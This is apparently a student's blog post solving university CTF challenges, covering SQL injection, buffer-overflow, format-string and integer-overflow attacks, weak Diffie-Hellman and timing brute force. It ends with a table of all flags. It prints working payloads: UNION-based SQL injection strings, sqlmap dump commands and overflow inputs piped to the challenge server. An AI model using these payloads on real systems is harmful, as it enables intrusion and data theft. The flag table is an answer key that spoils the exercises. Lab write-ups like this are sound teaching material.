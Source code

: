 ```yaml
---
title: "plsdonthaq.me CTF Challenges"
date: 2019-07-25T13:34:08+10:00

categories: ["Extended Security", "Musings"]
hiddenFromHomePage: false
postMetaInFooter: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  

---

The tutors released some CTF questions at [plsdonthaq.me](http://plsdonthaq.me). Keen!

# Category: Hard
## <s>trivial</s>

<details>

[[trivial]](trivial)

**Analysis**  
There's something _trivial_ about this program...  

Let's take a look at the dissasembly with `objdump -d trivial`, especially at `trivial_malloc` and `trivial_free`.  

```asm
000000000000178d <trivial_malloc>:
    178d:       55                      push   %rbp
    178e:       48 89 e5                mov    %rsp,%rbp
    1791:       48 83 ec 10             sub    $0x10,%rsp
    1795:       89 7d fc                mov    %edi,-0x4(%rbp)
    1798:       b8 00 00 00 00          mov    $0x0,%eax
    179d:       e8 7e f9 ff ff          callq  1120 <rand@plt>
    17a2:       99                      cltd   
    17a3:       c1 ea 0f                shr    $0xf,%edx
    17a6:       01 d0                   add    %edx,%eax
    17a8:       25 ff ff 01 00          and    $0x1ffff,%eax
    17ad:       29 d0                   sub    %edx,%eax
    17af:       05 00 00 40 00          add    $0x400000,%eax
    17b4:       83 e0 f8                and    $0xfffffff8,%eax
    17b7:       48 98                   cltq   
    17b9:       c9                      leaveq 
    17ba:       c3                      retq   

00000000000017bb <trivial_free>:
    17bb:       55                      push   %rbp
    17bc:       48 89 e5                mov    %rsp,%rbp
    17bf:       48 89 7d f8             mov    %rdi,-0x8(%rbp)
    17c3:       90                      nop
    17c4:       5d                      pop    %rbp
    17c5:       c3                      retq   
    17c6:       66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
    17cd:       00 00 00 
```

Hm...

Let's use a decompiler for an easier understanding of these two functions.

```c
// 0x000000000000178D
int64 trivial_malloc() {
  return (signed int)((rand() % 0x20000 + 0x400000) & 0xFFFFFFF8);
}

// 0x00000000000017BB
void trivial_free() {

}
```

There's ... no `malloc`? Nor is there a `calloc` anywhere?  
And you can definitely see that if you search the dissasembly `objdump -d trivial | grep malloc`.

So, the assignment of our items into the heap is being controlled **manually**!

There's also this function called `con`

```asm
0000000000001716 <con>:
    1716:       55                      push   %rbp
    1717:       48 89 e5                mov    %rsp,%rbp
    171a:       48 83 ec 10             sub    $0x10,%rsp
    171e:       bf 00 00 00 00          mov    $0x0,%edi
    1723:       b8 00 00 00 00          mov    $0x0,%eax
    1728:       e8 b3 f9 ff ff          callq  10e0 <time@plt>
    172d:       89 c7                   mov    %eax,%edi
    172f:       b8 00 00 00 00          mov    $0x0,%eax
    1734:       e8 77 f9 ff ff          callq  10b0 <srand@plt>
    1739:       be 00 00 00 00          mov    $0x0,%esi
    173e:       48 8d 3d bb 0a 00 00    lea    0xabb(%rip),%rdi        # 2200 <_IO_stdin_used+0x200>
    1745:       b8 00 00 00 00          mov    $0x0,%eax
    174a:       e8 a1 f9 ff ff          callq  10f0 <open@plt>
    174f:       89 45 f4                mov    %eax,-0xc(%rbp)
    1752:       8b 45 f4                mov    -0xc(%rbp),%eax
    1755:       41 b9 00 00 00 00       mov    $0x0,%r9d
    175b:       41 89 c0                mov    %eax,%r8d
    175e:       b9 12 00 00 00          mov    $0x12,%ecx
    1763:       ba 03 00 00 00          mov    $0x3,%edx
    1768:       be 00 00 02 00          mov    $0x20000,%esi
    176d:       bf 00 00 40 00          mov    $0x400000,%edi
    1772:       e8 e9 f8 ff ff          callq  1060 <mmap@plt>
    1777:       48 89 45 f8             mov    %rax,-0x8(%rbp)
    177b:       8b 45 f4                mov    -0xc(%rbp),%eax
    177e:       89 c7                   mov    %eax,%edi
    1780:       b8 00 00 00 00          mov    $0x0,%eax
    1785:       e8 16 f9 ff ff          callq  10a0 <close@plt>
    178a:       90                      nop
    178b:       c9                      leaveq 
    178c:       c3                      retq   
```

```c
// 0x0000000000001716
int con() {
  unsigned int v0; // eax@1
  int fd; // ST04_4@1

  v0 = time(0LL);
  srand(v0);
  fd = open("/dev/zero", 0);
  mmap((void *)0x400000, (size_t)&unk_20000, 3, 18, fd, 0LL);
  return close(fd);
}
```

It's some sort of function that sets the seed for `rand`, as well as read a whole chunk of zeros into the memory (our heap address).  
Although I don't see this function being called anywhere - it supposedly runs before `main`

Also, checking the security of this file with `checksec --file=./trivial`:

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX disabled   PIE enabled     No RPATH   No RUNPATH   95 Symbols     Yes      0               3        ./trivial
```

We'll be dealing with a binary that has partial RELRO (Can override the GOT table if need be), a Stack Canary (Won't be able to _just_ do a buffer overflow - ish), and PIE enabled (memory space stuff)

We can see that the stack (and heap) is executable too, with `readelf -l ./trivial`:  
```
GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000  RWE 0x10
```

The `E` in `RWE` stands for **E**xecutable.

---

**`trivial_malloc`**

This function returns a limited address range.

`(0x0 + 0x400000) & 0xFFFFFFF8 = 4194304`  
`(0x19999 + 0x400000) & 0xFFFFFFF8 = 4299160`

So we have a range of `104856` bytes.

As `sizeof(struct node)` is `24` (3x 8byte pointers), and name is 'allocated' `128` bytes, that's `152` bytes per item.  

`(4299160-4194304) / (24 + 128) = 689.84`  
So theoretically, we can have a maximum of 689 / 690 items before we are 'out' of free space

---

I made a breakpoint occur every time `create_item` finishes, to inspect the frame.  

After creating two items, we should expect `*(items)` and `*(items+8)` to be populated, as we do see.

```gdb
(gdb) p/x items                                                                                                                                                                               
$1 = 0x417c20                                                                                                                                                                                 
(gdb) p/x *(items) 
$2 = 0x555580a8                                                                                                                                                                               
(gdb) p/x *(items+8)                                                                                                                                                                          
$3 = 0x404450                                                                                                                                                                                 
(gdb) p/x *(items+16)                                                                                                                                                                         
$4 = 0x0                                                                                                                                                                                      
(gdb) p/x *(items+24)                                                                                                                                                                         
$5 = 0x0                                                                                                                                                                                      
```

I'm not sure what's going on, but it looks like `items[0]` points to an address that wasn't 'allocated'.

---

**glib versions**  


* most things - 2.2.5
* 2.2
* isoc99 functions - 2.7
* stack check - 2.4 

**Possible solutions**  


* heap overflow into shellcode
* Heap spray -> NOP sled \x90

</details>

# Category: Web
## cookie

<details>

> http://plsdonthaq.me:8001

**Solution**  
There's a browser cookie `admin` that is set to `0`.  
Simple just modify the cookie and set it to `1`.

Flag: `COMP6441{you_should_consider_doing_comp_[6843/6447]}`

</details>

## ezpz1.0

<details>

> http://plsdonthaq.me:8013

**Analysis**  
This is an SQL Injection question.  
Unfortunately a few too many people have been most likely [`sqlmap`](http://sqlmap.org/)-ing the poor website, and it was very slow to use (Rate limit your queries!!!).  
(_or, the server was slow to begin with_)

We're given a website with a login form, and a few links at the top.  
One says "flag", but it's a 404 - **it's a red herring**, so let's forget about that.

Doing some reconnaissance, we see that the SQL queries are performed unsafely.  
If we put a `'` into the username input, we're presented with a backend error

`''' LIMIT 1" LINE 3: ... WHERE username=''' ^ [SQL: "SELECT username, password\n FROM users\n WHERE username='''\n LIMIT 1"] (Background on this error at: http://sqlalche.me/e/f405)`

From here, we can see that the backend is using [SQLAlchemy](https://www.sqlalchemy.org/), a SQL library for Python.  
With some more research, we can see that the database is running [Postgres](https://www.postgresql.org/).  

Let's have a look at the query string.  

`"SELECT username, password FROM users WHERE username='' LIMIT 1"`

We see that the query is using apostrophes (`'`) to enclose the username and password strings, so **we also want to use apostrophes** in our exploit.  
We can also see that the password field is indirectly referenced - meaning that we won't be able to perform any sort of injection from the password input field (at least not with this query string alone).  

Firstly, let's guess a username - perhaps `admin`.  
Putting in `admin` and whatever password we want gives us an error saying that the **sha256(hash)** does not match.  
Interesting, so we know that the passwords might be hashed with SHA256.

We can therefore infer that some line of code in the server is performing a comparison: `if (sha256(input_password) == hash_inside_the_database) { ... }`.  

We can see from the SQL query, that the backend _first_ retrieves a record, and _then_ compares the record to our input.  
Obviously we don't have the password, let alone the SHA256 hash of the user `admin` (not yet at least) - but that's okay, we'll just provide our own hash!

We can perform an SQL injection into the username field to provide our own row with the `UNION` operator

Let's create a SHA256 hash of the letter `a` (our forced password)...  
`sha256("a") => ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb`

Injecting `' UNION SELECT 'admin', 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'--` into the username field, and using `a` as the password, we're presented with a welcome page, saying welcome `admin`!


Perhaps we can try get the password hash by concatenating the admin username and password as our first column in the union.

Inject: `' UNION SELECT 'admin' || password, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM users--`  
Result: `You are logged in as You are logged in as admin6d77eed869f7503fdc1a0c7feb648fffe2398a7b7952b91f0a7acc7fb7e26d2d`

So we've gotten the SHA256 password hash for `admin` to be `6d77eed869f7503fdc1a0c7feb648fffe2398a7b7952b91f0a7acc7fb7e26d2d`, which is probably a hash of the flag!

Let's see what else is in our `users` table.

To extract the names of the columns in our `users` table...  
`' UNION SELECT column_name, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM information_schema.columns WHERE table_name = 'users' OFFSET 0--`  
`' UNION SELECT column_name, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM information_schema.columns WHERE table_name = 'users' OFFSET 1--`  
`' UNION SELECT column_name, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM information_schema.columns WHERE table_name = 'users' OFFSET 2--`  

These queries give us the existence of three columns, `password`, `username`, and `id`

Searching for the entries in this table (_perhaps we had to find another user?_)...  
`' UNION SELECT id||'.'||username||'.'||password, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM users--`

It gives us just the admin row, `1.admin.6d77eed869f7503fdc1a0c7feb648fffe2398a7b7952b91f0a7acc7fb7e26d2d`

Unfortunately none of the SHA256 rainbow tables had this hash stored, and [HashCat](https://hashcat.net/hashcat/) didn't want to work for me.  
**But that's okay, because everything I just said was unnecessary in finding the flag!**

Instead what we want to do, is to navigate around the database to find the table which contains our flags!

**Solution**  
After snooping around for a bit, we find the existence of the `flag` table, to which we can then extract the flag with another SQL injection.

Inject: `' UNION SELECT flag, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM flag--`
Result: `You are logged in as You are logged in as COMP6443{literally_unhackable}`

Flag: `COMP6443{literally_unhackable}`

---

You could have also used [`sqlmap`](http://sqlmap.org/), which is a piece of software designed to do exactly these sort of things!

```
sqlmap -u http://plsdonthaq.me:8013/ --data username=* --method POST 
sqlmap -u http://plsdonthaq.me:8013/ --data username=* --method POST --dbs  
sqlmap -u http://plsdonthaq.me:8013/ --data username=* --method POST --dump 
```

</details>

# Category: Binary
## poodle

<details>

> Hello what is your favourite type of poodle?  
ENTER POODLE CHOICE NOW>   

[[buf2]](buf2)

**Solution**  
Looking at the disassembly of the code, `scanf` writes into a memory space that is `0x36` bytes long (54 bytes).  
The next 4 bytes are the return value, which we don't care about.

So we need to pad 58 bytes before we can override the return address to the address of `printFlag` (`0x08049259`).  

`python -c 'print("." * 58 + "\x08\x04\x92\x59"[::-1])' | nc plsdonthaq.me 1000`

Flag: `COMP6441{how_good_are_buffer_ove}rflows`

</details>

## format0

<details>

> ```
   ____                    __        __      _
  / __/__  ______ _  ___ _/ /_  ____/ /_____(_)__  ___ _
 / _// _ \/ __/  ' \/ _ `/ __/ (_.-/ __/ __/ / _ \/ _ `/
/_/  \___/_/ /_/_/_/\_,_/\__/ /___/__/ _/ /_/_//_/\_, /
                                                 /___/
Once thought to be just a lazy short cut,
actually leads to remote code execution!

A pointer to the flag is on the stack
format string>
```

[[format0]](format0)

**Solution**  
I reckon this question is broken, you don't need to try at all, just press enter.

Flag: `COMP6441{hacked_the_planet}`

</details>

## format2

<details>

[[format2_32]](format2_32)

**Analysis**  
Looking at the dissassembly of our binary, we see that this is a `printf` exploit.  
To store the input, the program uses `fgets` - to we're limited to 98 (0x63 - 1) bytes of input.  
Additionally, there is a stack canary which may halt our attempts - so we won't be doing a buffer overflow this time.  

(Evidently, because it's a format string challenge.)

Doing some analysis, the return address (EIP) of the `do_the_format` function is `0x080491fb`, which is stored at on the stack at `0xffffd55c`.  
We'll need to change it to `0x080492be`.

_(It was also the 35th item in the stack, but you wouldn't have been able to just write into `%35$n`, as it would write into the address referenced by the data in that slot, rather the address of the slot itself_

`<destinationAddress><destinationAddress+2>%<HI-8>c%5$n%<HI-LO>c%6$n`

Where:

* `destinationAddress` is the address which you wish to write into (`0xffffd55c`)
* `HI` is the first two bytes of the address we want to write (`0x0804`)
* `LO` is the last two bytes of the address we want to write (`0x92be`)

Doing that gives us this chain:  
`\x5c\xd5\xff\xff\x5e\xd5\xff\xff%37558c%6$n`

Now it didn't exactly work out for me, because `HI` - `LO` would give me a negative value, and I wasn't sure if that was right or if I had to do something special to fix that.  

After some research, I found a way to write two `short`s instead of a single `int`:  
`\x5c\xd5\xff\xff\x5e\xd5\xff\xff%37558c%2$hn%30022c%3$hn`

But jk it still didn't work - the stack was probably changing, so I couldn't just hardcode `0xffffd55c`

So I tried another approach, this time with the `GOT` entries.  

**Solution**  

**GOT** stands for _Global Offset Table_ and is a mechanism to redirect addresses to external functions (ie provided by libc).  

Looking at GOT entries of the binary with `readelf -r ./format2`, we get this:  
```
Relocation section '.rel.dyn' at offset 0x3fc contains 5 entries:                                                                                                                                               
 Offset     Info    Type            Sym.Value  Sym. Name                                                                                                                                                        
0804bfec  00000106 R_386_GLOB_DAT    00000000   _ITM_deregisterTMClone                                                                                                                                          
0804bff0  00000806 R_386_GLOB_DAT    00000000   __gmon_start__                                                                                                                                                  
0804bff4  00000a06 R_386_GLOB_DAT    00000000   stdin@GLIBC_2.0                                                                                                                                                 
0804bff8  00000b06 R_386_GLOB_DAT    00000000   stdout@GLIBC_2.0                                                                                                                                                
0804bffc  00000c06 R_386_GLOB_DAT    00000000   _ITM_registerTMCloneTa                                                                                                                                          
                                                                                                                                                                                                                
Relocation section '.rel.plt' at offset 0x424 contains 7 entries:                                                                                                                                               
 Offset     Info    Type            Sym.Value  Sym. Name                                                                                                                                                        
0804c00c  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0                                                                                                                                                
0804c010  00000307 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0                                                                                                                                                
0804c014  00000407 R_386_JUMP_SLOT   00000000   fgets@GLIBC_2.0                                                                                                                                                 
0804c018  00000507 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4                                                                                                                                      
0804c01c  00000607 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0                                                                                                                                                  
0804c020  00000707 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0                                                                                                                                                
0804c024  00000907 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
```

At this point, it's just a matter of choosing an entry to override.  
I decided to override `fflush`, thinking that overriding `printf` might be bad since it's the function that will perform our exploit for us.  

So therefore, we would need to change the value at the address for `fflush`, `*(0x0804c010) = 0x080492be`.

I also seemed to need to add an extra "." at the start of my string to fix the alignment of characters.

So finally I used this format string `.\x10\x11\x12\x13%173c%6$hhn%212c%7$hhn%114c%8$hhn%4c%9$hhn` to gain access to the shell.

[[format2_solver.py]](format2_solver.py)

Flag: `COMP6441{hacked_the_planet_2}`

</details>

## int1

**Solution**  
I wasn't able to do this challenge the first time, despite doing the exact same thing when attempting it the next day...

We need to input a number that when multiplied by 2, is equal to 2674.  
That would be 1337 right!  

But if you try enter a number greater than or equal to forty, we'll get an error:  

```
Enter a number: 100
Sorry we can't hold numbers >= 40
Budget cuts, they hit everybody...
```

The way to solve this is to perform an integer overflow attack.

Any positive number stored as a _signed integer_ (4 bytes) greater than 2147483647 will cause that number to overflow into the largest negative number.  
Similarly, any negative number stored as a _signed integer_ (4 bytes) less than -2147483647 will cause that number to overflow into the largest positive number. 

So we'll need to enter in `-2147482311` as the value.  

Doing so drops us into a bash shell, where through some recon we can find the flag.

```
$> ls
bin
boot
dev
etc
flag <---- Flag file!!!
...

$> cat flag
COMP6441{hacked_the_ether}
```

Flag: `COMP6441{hacked_the_ether}`

---

Now, the usual piping didn't work, and I'm not entirely sure why it didn't work.  
I even tried adding a time delay between the prints, but it still wouldn't work.  
If anyone knows why this is the case, please let me know!

`python3 -c 'print(-(2*31)+1337)' | nc plsdonthaq.me 1003`

# Category: Crypto
## <s>birthday attack</s>
## diffie 1

<details>

> INTERCEPTING DIFFY HELLMAN KEY EXCHANGE  
Generator: `19`  
Modulus: `239`  
Alice: here is my (Generator^mySecret) Mod (Modulus): `184`  
Bob: here is my (Generator^mySecret) Mod (Modulus): `227`  
What is their shared key?  
Eve:

**Solution**

The problem with the Diffie Hellman key exchange, is that if the modulus is not large enough, we are able to brute-force crack the secret of each party.

In this case:  
Alice's secret is `37`  
Bob's secret is `171`  

Given either secret, by raising the received public data to our secret, and taking the modulus of that, we are able to determine the shared secret, which in this case is `178`

Entering `178` as Eve's response gives us the flag.

[[diffie1_solver.py]](diffie1_solver.py)  
Usage: `diffie1_solver.py (generator) (modulus) (public)`  
If it's taking too long, perhaps use another set of values of the questions

Flag: `COMP6441{haCk3rs_gunnA_H4K}`

</details>

## diffie 2

<details>

> BEGINING DIFFY HELLMAN KEY EXCHANGE  
Generator: `61`  
Modulus: `823`  
Here is (Generator^mySecret) Mod (Modulus): `373`  
Enter yours: ...  
Enter our secret number: ...

**Solution**  
This is just the standard application of the Diffie Hellman process - no brute-forcing or any sort of cracking needed here.

Pick any secret `s`, then create your public data (base^`s` % modulus), and use that as the value for "Enter yours".  
Then just raise the given public data to your secret apply the modulus for the "Our secret number"

**Trivial Solution**  
Just enter `1`, and `1`

Flag: `COMP6441{sEcuRe_tHe_plaNet!}`

</details>

## <s>MAC</s>
## vinegar

<details>

> adamt told me that his facebook password encrypted is this cipher text: Dlc_ppyq_mq_MSKZ6441{lymo_rri_esfqyr}

**Solution**  
Vinegar ... hm I wonder if it's a _vigenere_ cipher.

Apply some analysis, or just brute force it, to determine that the key is `key`.

Flag: `COMP6441{hack_the_gibson}`

</details>

## <s>hash length magic</s>

<details>

**Analysis**  
Nothing happens when you connect?  
_Or does it?_

When you enter more than 255 characters, you get this message:  
`Send me 0x100 bytes, [sha256(key + message) + message] Where message is get flag`

python3 -c 'key = "a"; m = "get flag"; import hashlib; xx = hashlib.sha256(key.encode() + m.encode()).hexdigest() + m; print(xx + "\x00" * (0x100 - len(xx)))' | nc plsdonthaq.me 9003

</details>

# Category: Misc

## shuffle

<details>

> Can you crack this?  
[[shuffle.txt]](shuffle.txt)

**Solution**
It's a bunch of ASCII art, with the lines shuffled.  
We can sort these lines (by increasing number) and after stripping this order information, we can read the flag from ASCII art.

[[shuffle_solver.py]](shuffle_solver.py)  
[[shuffle_solved.txt]](shuffle_solved.txt)

Flag: `MAKING ASCII ART IS A KEY PART OF THE HACKERS TOOLKIT`
</details>

## guess

<details>

> Can you guess the flag?  

**Analysis**  
The program is asking for some sort of password.  
If you try to enter `A`... it will instantly kick you out.  
If you try to enter `B`... it will instantly kick you out.  
If you try to enter `C`... there's a 0.5s delay... and then it kicks you out.  

What about a second letter?  
`CA` -> 0.5s, then kick  
`CB` -> 0.5s, then kick  
...  
`CO` -> **one second**, then kick.  

Hmm..

**Solution**  
For each correct letter (case-sensitive, order-sensitive), it takes an extra 0.5 seconds to validate.  
We can use this time-delay as a feedback mechanism to tell us if we are right or not!

So I hacked together a brute-forcing script, and let it run for a few minutes.  
After a while, we successfully retrieve the flag!

Flag: `COMP6441{trollllolollololllol7}`
</details>

# Just give me the answers

|Question|Flag|
|--:|:--|
|trivial|``|
|cookie|`COMP6441{you_should_consider_doing_comp_[6843/6447]}`|
|ezpz1.0|`COMP6443{literally_unhackable}`|
|poodle|`COMP6441{how_good_are_buffer_ove}rflows`|
|format0|`COMP6441{hacked_the_planet}`|
|format2|`COMP6441{hacked_the_planet_2}`|
|int1|`COMP6441{hacked_the_ether}`|
|birthday attack|``|
|diffie 1|`COMP6441{haCk3rs_gunnA_H4K}`|
|diffie 2|`COMP6441{sEcuRe_tHe_plaNet!}`|
|MAC|``|
|vinegar|`COMP6441{hack_the_gibson}`|
|hash length magic|``|
|shuffle|`MAKING ASCII ART IS A KEY PART OF THE HACKERS TOOLKIT`|
|guess|`COMP6441{trollllolollololllol7}`|

